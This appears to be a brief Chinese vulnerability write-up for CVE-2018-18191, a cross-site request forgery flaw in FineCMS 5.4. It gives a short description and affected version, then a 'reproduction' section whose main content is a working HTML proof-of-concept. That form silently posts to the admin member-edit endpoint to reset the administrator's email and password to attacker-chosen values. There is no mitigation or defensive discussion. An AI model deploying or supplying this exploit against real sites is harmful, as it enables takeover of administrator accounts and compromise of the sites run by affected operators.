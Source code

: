 （CVE-2018-18191）Finecms 5.4 存在CSRF漏洞
==========================================

一、漏洞简介
------------

Dayrui
FineCms是中国天睿（Dayrui）程序设计团队发布的一套使用MVC架构和PDO数据库接口开发的内容管理系统（CMS）。
Dayrui FineCms
5.4版本中的/admin.php?c=member&m=edit&uid=1存在跨站请求伪造漏洞。远程攻击者可利用该漏洞修改管理员账户密码。

二、漏洞影响
------------

Finecms 5.4

三、复现过程
------------

### poc

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="http://www.0-sec.org/admin.php?c=member&m=edit&uid=1" method="POST">
          <input type="hidden" name="page" value="0" />
          <input type="hidden" name="member[email]" value="admin@163.com" />
          <input type="hidden" name="member[name]" value="admin" />
          <input type="hidden" name="member[phone]" value="18888888888" />
          <input type="hidden" name="member[password]" value="888888" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>
